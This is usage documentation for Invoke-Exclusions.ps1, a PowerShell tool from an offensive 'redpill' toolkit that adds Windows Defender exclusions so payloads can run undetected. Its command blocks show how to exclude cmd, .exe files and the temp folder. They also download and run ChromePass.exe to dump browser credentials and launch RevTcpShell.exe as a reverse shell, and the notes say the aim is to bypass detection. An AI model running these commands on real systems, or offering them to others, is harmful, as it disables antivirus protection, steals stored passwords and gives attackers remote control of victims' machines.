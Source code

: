 ## Invoke-Exclusions.ps1

|Cmdlet name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-Exclusions](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WD-Bypass/Invoke-Exclusions.ps1)|Add exclusions to Defender (Set-MpPreference) + Download\Execute -uri 'cmdlet'<br />Types: **ExclusionPath, ExclusionProcess, ExclusionExtension, ExclusionIpAddress**|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrl.png)<br />[Screenshot3](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-ExclusionsUrlMimikarz.png)|

**download cmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-Bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Get-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Set-MpPreference")
[bool]((Get-Module -ListAvailable -Name "ConfigDefender").ExportedCommands|findstr /C:"Remove-MpPreference")
```

**execution:**
```powershell
#Get full module information
Get-help .\Invoke-Exclusions.ps1 -Full

#Get Exclusions List (terminal)
.\Invoke-Exclusions.ps1 -action "query"

#Get Exclusions List (GUI)
.\Invoke-Exclusions.ps1 -action "query" -Gui "true"


#Set-MpPreference -ExclusionProcess "cmd" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionProcess" -Exclude "cmd"

#Set-MpPreference -ExclusionExtension "exe" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionExtension" -Exclude "exe"

#Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionPath" -Exclude "$Env:TMP"

#Set-MpPreference -ExclusionIpAddress "192.168.1.72" -Force
.\Invoke-Exclusions.ps1 -action "add" -type "ExclusionIpAddress" -Exclude "192.168.1.72"


## CmdLet Function: Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -OutFile "$Env:TMP\ChromePass.exe"
# 3º - cd $Env:TMP; .\ChromePass.exe /stext credentials.log
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"

## CmdLet Function: Add exclusion Path + Download URI PE + Execute PE
# 1º - Set-MpPreference -ExclusionIpAddress "192.168.1.72" -Force
# 2º - Iwr -Uri "https://raw.githubusercontent.com/r00t-3xp10it/RevTcpShell.exe" -OutFile "$Env:TMP\RevTcpShell.exe"
# 3º - cd $Env:TMP; Start-Process RevTcpShell.exe
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionIpAddress" -Exclude "192.168.1.72" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/RevTcpShell.exe" -Arguments "-port 666"


#Remove-MpPreference -ExclusionProcess "cmd" Force
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionProcess" -Exclude "cmd"
```

**Final Notes:**
```powershell
[DESCRIPTION]
This cmdlet allow users to manage ( query, create, delete ) Windows
Defender exclusions: ExclusionExtension, ExclusionProcess, ExclusionPath.
The files covered by the exclusion definition will be excluded from Windows
Defender Real-time protection, monitoring, Scheduled scans, On-demand scans.

[NOTES]
This cmdlet in addition to add\remove exclusions from windows defender
allows its users to download binaries (PE) that are being detected by the
anti-virus and run it through the exclusion definition (bypassing detection)
Use a comma (,) to split multiple exclusion entrys ( -exclude 'exe,vbs' )

[PARAMETER URI LIMITATIONS]
This function creates the exclusion on Defender then downloads the -uri 'script\PE'
to -exclude 'directory' and finally executes the script.ps1 OR the binary (PE) from
the exclusion directory with the intent to evade detection ( download + execution )

But 'execution' of payloads under -uri invocation is advised to be only under
-type parameter 'ExclusionPath' because is exclusion is more comprehensive
```
